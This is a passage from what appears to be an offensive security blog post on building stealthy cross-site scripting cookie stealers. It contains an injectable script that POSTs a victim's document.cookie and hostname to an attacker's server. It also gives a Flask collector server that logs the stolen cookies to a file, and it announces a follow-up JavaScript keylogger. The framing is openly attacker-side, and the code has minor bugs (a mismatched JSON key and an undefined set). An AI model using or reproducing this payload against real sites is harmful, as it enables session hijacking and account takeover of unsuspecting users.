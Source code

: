 The code shown above simply creates a new XMLHttpRequest objects, initializes a POST request object, and uses the request object to send the user's cookies to the attacker's server. The script's injectable form is shown below.

{% highlight html %}
<script> var xmlhttp = new XMLHttpRequest(); xmlhttp.open("POST", "http://192.168.1.191/update", true); xmlhttp.send(JSON.stringify({hostname: window.location.host, session:document.cookie})); </script>
{% endhighlight %}

The Python script that acts as our cookie stealer's server is smilar to the ones we created before. Its distinctive characteristics are that it accepts 'POST' requests and grabs the cookies from the JSON POST data as opposed to the query string.

{% highlight python %}

from flask import Flask, request
from flask.ext.cors import CORS

app = Flask(__name__)
app.debug = True

CORS(app)

@app.route('/', methods = [ 'POST' ])
def index():

    cookies = request.json.get('cookies', None)

	if cookies is not None and cookies not in stolen_cookies:
		stolen_cookies.add(cookies)

    	with open('cookies.txt', 'a') as fd:
    	    fd.write(cookies)
	
		print cookies

    return {
		'Success' : True,
	}

app.run(host='0.0.0.0', port=80)

{% endhighlight %}

In addition, the script keeps a set of stolen cookies to keep duplicates to a minimum. You can see the AJAX cookie stealer in action in the video below.

<iframe width="560" height="315" src="https://www.youtube.com/embed/mmiYFBxIDN0" frameborder="0" allowfullscreen></iframe>

#Conclusion

In this post we developed two modern cookie stealers, placing an emphasis on stealth. These cookie stealers provide a means to steal session cookies in order to expand the attacker's access to the target website. Stealing sessions is ineffective in a number of situations however. These include websites that use http-only cookies, sessionless auth, or that require an additional passphrase to perform privileged operations.

In part II of this series, we'll be writing a Javascript keylogger that overcomes these limitations. The keylogger will use web sockets monitor keystrokes in real time, as well as map them to specific DOM elements so that the attacker knows what form on the page the victim is typing into.

You can check out and run all four demo scripts on Github [here](http://github.com/s0lst1c3/allthecookies).


